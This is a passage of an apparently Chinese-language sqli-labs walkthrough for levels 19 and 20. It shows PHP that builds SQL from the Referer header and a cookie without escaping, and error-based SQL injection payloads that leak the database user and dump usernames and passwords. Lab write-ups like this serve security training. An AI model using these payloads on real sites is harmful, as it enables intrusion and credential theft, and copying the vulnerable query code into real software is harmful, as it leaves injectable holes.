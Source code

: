 ```
$uagent = $_SERVER['HTTP_REFERER'];
$IP = $_SERVER['REMOTE_ADDR'];
$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
```
![image](https://note.youdao.com/yws/res/11254/4FAEADB4A53B4F58B04AE6FA719707BA)

#### payload

```
1'and extractvalue(1,concat(0x7e,(select user()),0x7e)) and '1'='1
```
### less-20
##### index.php

```
<?php 
if cookie 中不存在 uname 参数: 
    xxxx
    if 提交了 uname 和 passwd: 
    # 进行过滤 
        $uname = check_input($_POST['uname']); 
        $passwd = check_input($_POST['passwd']); 
        $sql="SELECT users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1"; 
        $cookee = $row1['username']; 
        if 有查询结果: 
            # 将 uname 的值设置给 cookie 里面的 uname 参数
            setcookie('uname', $cookee, time()+3600); 
        else: 
            print_r(mysql_error()); 
else: 
    if POST 数据里面没有 submit 参数: 
        $cookee = $_COOKIE['uname']; 
        # 直接将 cookee 通过单引号拼接到 SQL 语句中 
        $sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1"; 
        if 查询无结果: 
            输出 mysql_error() 
        if 有结果: 
            输出查询的信息 
    else: 
        # 将 uname 的值设置给 cookie 里面的 uname 参数 
        setcookie('uname', $row1['username'], time()-3600); ?>
```
#### payload

```
 uname=admin'+AND+(SELECT+1+FROM+(SELECT+COUNT(*),CONCAT((SELECT(SELECT+CONCAT(CAST(CONCAT(username,password)+AS+CHAR),0x7e))+FROM+users+LIMIT+0,1),FLOOR(RAND(0)*2))x+FROM+INFORMATION_SCHEMA.TABLES+GROUP+BY+x)a)#
```
